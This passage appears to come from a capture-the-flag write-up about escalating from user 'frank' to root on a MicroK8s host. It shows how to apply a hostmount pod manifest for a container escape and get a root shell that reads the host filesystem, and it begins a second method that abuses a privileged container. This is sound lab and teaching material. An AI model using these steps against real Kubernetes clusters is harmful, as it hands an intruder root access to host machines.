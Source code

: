 So we've find a running pod, but this doesn't give us the image definition used to build its containers - this requires another kubectl command to output the pod's configuraiton in yaml, revealing an image available at a local registry running on localhost:32000 :

```console
frank@dev-01:~$ microk8s kubectl get pod nginx-deployment-7b548976fd-77v4r -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/podIP: 10.1.133.238/32
...snip...
spec:
  containers:
  - image: localhost:32000/bsnginx
    imagePullPolicy: Always
```

We can use this image in a revised version of the pod configuration file included above. Start by changing the "image" key of this file from "ubuntu:latest" to "localhost:32000/bsnginx" and save the resulting file as "exploit.yaml". We can now follow the exploit POC, applying the new pod definition to the cluster : 

```console
frank@dev-01:~$ microk8s kubectl apply -f exploit.yaml
pod/hostmount created
```

and creating a shell session in the new container, accessing the host's root directory at `/opt/root` : 

```console
frank@dev-01:~$ microk8s kubectl exec -it hostmount /bin/bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@hostmount:/# ls /opt/root/root
root.txt  snap
```

The root flag is at `/opt/root/root/root.txt` (i.e. `/root/root.txt` on the host machine). 

## 4: Privesc version 2, frank -> root - privileged container

The second privilege escalation method exploits the privilege container discovered by Kube-hunter. Privileged containers come with a number of normal security measures disabled, providing direct access to resources on the host system - in this case, we'll be exploiting the fact that the host file system is available for mounting through the container's `/dev` directory ([the exploit we're using here is borrowed from BishopFox's BadPod series](https://github.com/BishopFox/badPods/tree/main/manifests/priv)). As we didn't see the "calico-node-6595k" pod when running `kubectl get pods` in the previous example, it is likely running in a separate namespace - add the "-A" flag to the same command to see all pods in all namespaces :

```console
frank@dev-01:~$ microk8s kubectl get pods -A
NAMESPACE            NAME                                      READY   STATUS    RESTARTS   AGE
kube-system          hostpath-provisioner-5c65fbdb4f-29k5w     1/1     Running   8          35d
container-registry   registry-9b57d9df8-2qbbs                  1/1     Running   8          35d
default              nginx-deployment-7b548976fd-77v4r         1/1     Running   2          11d
kube-system          coredns-7f9c69c78c-hpsnw                  1/1     Running   7          35d
kube-system          calico-node-6595k                         1/1     Running   8          35d
kube-system          calico-kube-controllers-f7868dd95-xkk4w   0/1     Running   9          35d
```
